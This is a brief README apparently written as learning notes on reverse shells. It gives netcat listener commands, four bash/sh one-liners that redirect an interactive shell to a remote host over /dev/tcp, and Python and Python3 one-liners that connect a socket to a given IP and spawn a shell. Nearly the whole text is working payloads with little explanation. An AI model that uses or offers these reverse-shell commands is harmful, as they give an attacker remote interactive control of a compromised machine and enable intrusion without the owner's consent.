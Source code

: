 ## Reverse Shell Learing:
### Netcat using:
    Windows: $ ncat -lvnp 444
    Linux: $ nc -lvnp 444
#### Bin & Bash:
```
1. sh -i >& /dev/tcp/0.0.0.0/4444 0>&1
2. /bin/sh -i >& /dev/tcp/0.0.0.0/4444 0>&1
3. bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
4. /bin/bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
```
#### Python:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
#### Python3:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.101",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
